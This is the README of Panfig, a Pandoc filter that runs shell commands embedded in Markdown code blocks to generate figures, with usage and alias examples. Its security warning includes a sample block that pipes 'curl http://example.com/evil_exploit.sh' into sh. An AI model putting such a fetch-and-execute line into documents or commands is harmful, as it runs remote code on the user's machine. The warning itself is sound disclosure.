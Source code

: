 Pandoc Figure Framework
=======================

This library lets you write self-contained Pandoc/Markdown files that contain figures.

Without Panfig, if you want figures, you have to save the image files, and the scripts that generate them, alongside the document. You'd probably even have a Make system to ensure that all the figures were up to date. What a hassle!

With Panfig, the document stands alone. It describes how to generate the images, and they're generated when the document is compiled to HTML (or whatever).

For example, this Markdown code:

    Here is a very simple FSM: the "on-off automaton."

    ~~~~~~~~ {.panfig shell="dot -Tpng -o {path}"}
      digraph G {
        on [style=filled];
        on -> off;
        off -> on;
      }
    ~~~~~~~~

generates HTML that looks like this:

> Here is a very simple FSM: the "on-off automaton."
>
> ![](on-off.png)



Security: for God's sake, be careful.
-------------------------------------

I am putting this up near the top because you should care.
**Panfig executes arbitrary code contained in the document being compiled. If you invoked Pandoc (+Panfig) on the following document, it would own your computer.**


    ~~~~~~~~ { .panfig shell="curl http://example.com/evil_exploit.sh | sh"}
    ~~~~~~~~


How do I use it?
----------------

First things, of course, first: `pip install panfig`. (I don't actually have this on PyPI yet, so you'll have to download this and run `python setup.py` yourself.)

In general terms: where you want a figure, you write a code block that describes how to generate an image file. Then you compile the document with `pandoc --filter panfig ...`, and Panfig will generate the image and replace the code block with it.

More specifically: to make a figure, you use Pandoc/Markdown's fenced-code-block syntax to designate a code block as a Panfig block, by giving it the `.panfig` class, and also specifying a shell command that generates the image, like so:

    ~~~~~~~~ { .panfig shell="dot -Tpng -o {path}" }
      digraph G {
        on -> off;
        off -> on;
      }
    ~~~~~~~~

The `sh` attribute, as you see, is a shell command. The contents of the block are piped to its standard input.


### Aliases

If you get tired of writing the same command over and over, you can use aliases to make things more concise. For example:

- Without aliases:

        ~~~~~~~~ { .panfig shell="(cat; echo ''; echo 'Export[$CommandLine[[2]], %, \"png\"]') | MathKernel {path}" }
          Plot[Sin[x], {x, 0, 2*Pi}]
        ~~~~~~~~

- With aliases:

        ~~~~~~~~ { .panfig-aliases }
        {"mma": {"shell": "(cat; echo ''; echo 'Export[$CommandLine[[2]], %, \"png\"]') | MathKernel {path}"}}
        ~~~~~~~~

        ~~~~~~~~ { .panfig alias=mma }
          Plot[Sin[x], {x, 0, 2*Pi}]
        ~~~~~~~~
